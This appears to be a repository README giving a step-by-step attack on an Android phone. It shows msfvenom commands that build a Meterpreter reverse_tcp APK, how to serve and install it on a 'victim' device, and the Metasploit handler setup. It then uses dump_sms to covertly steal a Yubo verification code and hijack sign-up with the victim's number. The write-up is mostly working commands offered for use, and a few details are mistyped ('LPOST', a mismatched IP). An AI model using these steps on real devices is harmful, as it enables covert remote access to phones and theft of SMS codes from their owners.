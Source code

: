 vuln+exp:

First of all, let's get ourselves a victim phone or device: I am going to be using a Samsung Galaxy S6 running Android 7, kernel version 3.10.61-13830439 
and Knox 2.7.1. This phone is super old (and rooted, hence the outdated software) yet the exploit works.

Disclaimer: This exploit may work on Apple devices, however it is a different process as APK files do not run on iOS or OS X. 

First off, let's install Yubo. Once you have done this, make sure you have Metasploit installed. I will be using this in combination with a local Apache server
to transfer the APK easier. I will be using Ubuntu Budgie 20.04 but this works on any operating system.

First terminal command: ifconfig #this gives you the LHOST IP, indicated by 1.png in the repository.
Mine is 192.1.168.180 (yes, this only works on local networks however if you are a port forwarding nerd, this will work globally).

Next terminal command: [msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.180 LPOST=4444 R > attack.apk] #replace LHOST with your local IP.
LPORT is 4444, don't ask why, it just works. Also, don't ask why the R is there, again, it just works.

I am going to move this to my local Apache server - var/www/html/ but you can transfer via bluetooth, USB, google drive etc.

In the meantime, next terminal command: [msfconsole -q] #Ignore the sh!tty banner, we are getting down to business bois.
then, [use exploit/multi/handler] #this is our exploit handler.
Next, [set LHOST 192.168.1.180]  #again, replace with your local IP. LPORT should already be configured to 4444 in msfconsole.

Next, [set payload android/meterpreter/reverse_tcp] #this tells the exploit what payload to receive and handle.

Before you enter exploit, install the APK on the victim phone and leave it there. See 2.png in repository.

Enter [exploit] and click the APK once or twice. You should enter the phone.

If you don't get a functioning meterpreter shell, close the current session and show the sessions by typing (you guessed it), [sessions].
Switch session to a running one with [sessions -i 1] where 1 is the number of the session you want.

You now have full access to the phone, but don't get too excited. SMS is one of the only modules in here that is stealthy and the user gets no prompt
or knowledge of what we are doing. 

Go to Yubo > Sign up > enter random details >  enter the victim phone number - it will send a code. Here is where we come in. Go into your meterpreter
and type dump_sms (see 3.png in repository).

I had to use prior screenshots from Kali seeing as the reverse_tcp was not connecting from my phone to computer. I will update these as soon
as it works again (it might actually be the new metasploit update).

I have also attached the screenshot of the dump_sms with the Yubo code.
